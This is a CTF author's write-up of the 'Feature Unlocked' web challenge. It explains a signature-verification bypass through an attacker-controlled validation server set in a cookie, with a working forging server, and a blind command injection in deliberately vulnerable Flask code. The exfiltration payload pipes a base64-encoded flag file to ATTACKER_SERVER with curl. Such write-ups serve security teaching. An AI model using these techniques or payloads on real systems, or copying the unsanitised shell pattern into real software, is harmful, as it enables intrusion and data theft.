


# Feature Unlocked

## Video walkthrough

[](https://www.youtube.com/watch?v=6jvmbvsRLgQ "Signature Verification Bypass and Command Injection - Feature Unlocked (CyberSpace CTF)")

## Description

> The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..

I decided to make web challenge for this CTF. The first part was inspired by a recent challenge I completed in the Wani CTF; [one day, one letter](https://crypto-cat.gitbook.io/ctf-writeups/2024/wani/web/one_day_one_letter) so shout-out to the creator, `KowerKoint` 💜

## Solution

### Site functionality

When we open the website, we are welcomed to the "World's Coolest App".


If we check the status of the "new feature", we'll see a countdown timer indicating that the feature will be unlocked in 7 days time (after the CTF has ended).


Players may dig into the JavaScript, but it's merely an animation - the `releaseTimestamp` is provided by the server.

### Source code

The challenge comes with source code, but let's break it down rather than dumping it all here.

Starting with the `/release` route in `main.py`, we see that we need a valid `access_token` to access the new feature.

```python
@app.route('/release')
def release():
    token = request.cookies.get('access_token')
    if token:
        try:
            data = serializer.loads(token)
            if data == 'access_granted':
                return redirect(url_for('feature'))
        except Exception as e:
            print(f"Token validation error: {e}")

    validation_server = DEFAULT_VALIDATION_SERVER
    if request.args.get('debug') == 'true':
        preferences, _ = get_preferences()
        validation_server = preferences.get(
            'validation_server', DEFAULT_VALIDATION_SERVER)

    if validate_server(validation_server):
        response = make_response(render_template(
            'release.html', feature_unlocked=True))
        token = serializer.dumps('access_granted')
        response.set_cookie('access_token', token, httponly=True, secure=True)
        return response

    return render_template('release.html', feature_unlocked=False, release_timestamp=NEW_FEATURE_RELEASE)
```

So, how is the date validated? In the code above, you'll see the `validation_server` is hardcoded into the application _but_ if the `debug` GET parameter is set to `true` _and_ the `preferences` cookie contains a `validation_server`, it will be used instead. These elements are defined at the top of the script.

```python
DEFAULT_VALIDATION_SERVER = 'http://127.0.0.1:5001'
NEW_FEATURE_RELEASE = int(time.time()) + 7 * 24 * 60 * 60
DEFAULT_PREFERENCES = base64.b64encode(json.dumps({
    'theme': 'light',
    'language': 'en'
}).encode()).decode()
```

Breaking down the validation, we first have a `validate_server` function that returns whether or not the current date is greater than (or equal to) the scheduled release date.

```python
def validate_server(validation_server):
    try:
        date = validate_access(validation_server)
        return date >= NEW_FEATURE_RELEASE
    except Exception as e:
        print(f"Error: {e}")
    return False
```

The `validate_access` function will first get the public key from the `/pubkey` endpoint on the specified `validation_server`.

```python
def validate_access(validation_server):
    pubkey = get_pubkey(validation_server)
    try:
        response = requests.get(validation_server)
        response.raise_for_status()
        data = response.json()
        date = data['date'].encode('utf-8')
        signature = bytes.fromhex(data['signature'])
        verifier = DSS.new(pubkey, 'fips-186-3')
        verifier.verify(SHA256.new(date), signature)
        return int(date)
    except requests.RequestException as e:
        raise Exception(f"Error validating access: {e}")
```

```python
def get_pubkey(validation_server):
    try:
        response = requests.get(f"{validation_server}/pubkey")
        response.raise_for_status()
        return ECC.import_key(response.text)
    except requests.RequestException as e:
        raise Exception(
            f"Error connecting to validation server for public key: {e}")
```

Next, it will issue a request to the `/` endpoint on the `validation_server` and use the public key to verify that the returned `date` signature is valid.

The `validation_server` is running on a different port and will generate a private/public keypair, then sign the current date with it.

```python
key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}

@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()))
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })
```

Before formulating our attack plan, let's look at the final piece of the puzzle; the `/feature` route that will be unlocked.

```python
@app.route('/feature', methods=['GET', 'POST'])
def feature():
    token = request.cookies.get('access_token')
    if not token:
        return redirect(url_for('index'))

    try:
        data = serializer.loads(token)
        if data != 'access_granted':
            return redirect(url_for('index'))

        if request.method == 'POST':
            to_process = request.form.get('text')
            try:
                word_count = f"echo {to_process} | wc -w"
                output = subprocess.check_output(
                    word_count, shell=True, text=True)
            except subprocess.CalledProcessError as e:
                output = f"Error: {e}"
            return render_template('feature.html', output=output)

        return render_template('feature.html')
    except Exception as e:
        print(f"Error: {e}")
        return redirect(url_for('index'))
```

It's a simple word-counting feature that takes user input and passes it directly to a command without sanitisation.

### Exploit

Based on our initial review of the application, we can outline the following plan of action:

-   Set `debug=true`, so the server will attempt to read the `validation_server` from the `preferences` cookie.
-   Base64 decode the `preferences` cookie, add `validation_server: https://ATTACKER_SERVER`, and re-encode.
-   Generate a public/private keypair on the attacker server.
-   Configure the attacker server to sign an arbitrary date with the private key and return the corresponding public key when the `/pubkey` endpoint is requested.
-   Once granted access to the new feature, probe for command injection vulnerabilities.

#### Forging a signature

Let's start by configuring the attacker server. We can generate a keypair with the following script.

```python
from Crypto.PublicKey import ECC

key = ECC.generate(curve='P-256')

with open('pubkey', 'wb') as f:
    f.write(key.public_key().export_key(format='PEM').encode('utf-8'))

with open('privkey', 'wb') as f:
    f.write(key.export_key(format='PEM').encode('utf-8'))
```

We configure `server.py` to do the same thing as the real `validation_server`, _except_ that the returned date will be 7+ days in the future.

```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

def load_private_key():
    with open('privkey', 'rb') as f:
        return ECC.import_key(f.read())

key = load_private_key()

def generate_date_and_sign(date):
    h = SHA256.new(date.encode('utf-8'))
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    return date, signature.hex()

@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return key.public_key().export_key(format='PEM'), 200, {'Content-Type': 'text/plain; charset=utf-8'}

@app.route('/', methods=['GET'])
def generate_signed_date():
    date = int(time.time()) + 14 * 24 * 60 * 60
    date, signature = generate_date_and_sign(str(date))

    return jsonify({
        'date': date,
        'signature': signature
    })

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

Start the server, then use some service like `ngrok` to expose the local port `1337` to the internet.

Update the `preferences` cookie, e.g.

```json
{ "validation_server": "https://ATTACKER_SERVER", "theme": "light", "language": "en" }
```

Finally, visit the challenge URL with the `debug` GET parameter set to `true`.

```
http://127.0.0.1:5000/release?debug=true
```

We get a hit in the server logs!

```bash
+-------------------------+----------------------------------+
| Forwarding traffic to   |     http://localhost:1337        |
+-------------------------+----------------------------------+
200		GET	/pubkey
200		GET	/
```

The feature is now unlocked!


#### Command injection

If we visit the new feature endpoint, we'll find the \[much anticipated\] word counting feature.



If we provide some input, we'll see it does indeed count the words.



Since it only returns a decimal value as the output, any command injection vulnerability will be "blind" so we will need to find a way to exfiltrate data.

One common way to do this is to find a writeable web directory, write the command output (or copy files), and browse them directly.

Another option is using standard tools to return the data, e.g., `curl`. The following input will convert the flag to base64 (so we don't lose special characters) and then make a HTTP request to our attacker server, with that encoded value as a GET parameter.

```bash
hi; curl https://ATTACKER_SERVER?lol=$(cat flag.txt | base64)
```

We can recheck our server logs to find the base64 encoded flag 🙂

Flag: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`
